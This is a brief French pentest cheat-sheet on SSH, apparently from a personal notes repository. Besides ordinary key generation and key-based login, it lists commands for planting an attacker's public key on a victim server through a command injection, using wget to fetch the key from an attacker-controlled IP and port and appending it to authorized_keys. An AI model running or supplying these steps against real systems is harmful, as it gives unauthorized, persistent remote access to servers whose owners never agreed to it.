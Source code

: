 # ssh

* Créer une paire de clés SSH :

```
ssh-keygen -b 4096
```

* Importer une clé SSH sur un serveur avec une injection de commande (attention à l'encodage URL qui peut parfois être bloquant) :

```
wget http://<IP>:<PORT>/keys.pub -O /tmp/<FILE>
mkdir /home/<USER>/.ssh
cat /tmp/<FILE> >> ~/.ssh/authorized_keys
cat  ~/.ssh/authorized_keys
```

Si la machine d'attaque n'est pas joignable depuis la machine victime, il est possible de copier directement la clé publique sous le format texte (il n'y a pas d'encodage particulier dans ce genre de fichier).

* Réaliser une connexion avec une clé SSH :

```
ssh -i keys <USER>@<IP>
```
